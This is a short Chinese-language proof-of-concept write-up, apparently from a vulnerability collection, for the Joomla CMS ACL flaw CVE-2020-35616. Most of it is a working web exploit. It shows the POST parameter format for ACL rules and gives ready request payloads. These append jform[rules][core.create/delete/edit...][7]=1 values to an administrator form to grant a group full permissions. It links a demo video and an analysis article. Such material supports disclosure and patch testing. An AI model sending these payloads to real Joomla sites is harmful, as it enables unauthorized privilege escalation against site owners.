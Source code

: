 # Joomla CMS 框架 ACL 安全访问控制漏洞（CVE-2020-35616）

POST请求表单中的ACL规则集的格式： jform[rules][core.PERMISSION][GROUP_ID]

```
jform[rules][core.delete][ID]
jform[rules][core.edit][ID]
jform[rules][core.edit.state][ID]
jform[rules][core.edit.own][ID]
```

如果将这些POST请求参数设置为值1，则基本上将这些特定权限设置为Allowed

**PoC:**

```
POST administrator/index.php?option={Target Category}
...
...
...
&jform[rules][core.{create|delete|edit}][AttackerID]=1
```

如上所述，我们希望向组ID为7的管理员授予所有权限。因此，在保存表单时，我们需要附加以下POST数据：

```
&jform[rules][core.create][7]=1&jform[rules][core.delete][7]=1&jform[rules][core.edit][7]=1&jform[rules][core.edit.state][7]=1&jform[rules][core.edit.own][7]=1
```

![](media/16096789927812/16096790331190.jpg)


PoC验证视频：
https://youtu.be/AZr6WydbUA0

详细分析文章见：https://blog.securelayer7.net/latest-joomla-exploit-cve-2020-35616-acl-security-vulnerabilities/